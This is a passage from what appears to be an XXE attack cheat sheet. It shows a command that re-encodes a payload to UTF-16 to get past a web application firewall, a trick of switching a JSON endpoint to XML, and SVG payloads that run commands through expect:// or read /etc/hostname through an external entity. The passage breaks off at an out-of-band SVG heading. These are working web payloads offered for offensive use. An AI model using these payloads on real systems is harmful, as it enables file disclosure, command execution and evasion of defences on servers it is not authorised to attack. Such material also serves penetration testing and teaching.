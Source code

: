 **Example**: We can convert the payload to `UTF-16` using [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) to bypass some WAF:

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```


### XXE on JSON Endpoints

In the HTTP request try to switch the `Content-Type` from **JSON** to **XML**, 

| Content Type       | Data                               |
| ------------------ | ---------------------------------- |
| `application/json` | `{"search":"name","value":"test"}` |
| `application/xml`  | `<?xml version="1.0" encoding="UTF-8" ?><root><search>name</search><value>data</value></root>` |


* XML documents must contain one root (`<root>`) element that is the parent of all other elements.
* The data must be converted to XML too, otherwise the server will respond with an error. 

```json
{
  "errors":{
    "errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."
  }
}
```

* [NetSPI/Content-Type Converter](https://github.com/NetSPI/Burp-Extensions/releases/tag/1.4)


## XXE in Exotic Files

### XXE Inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via SVG rasterization**
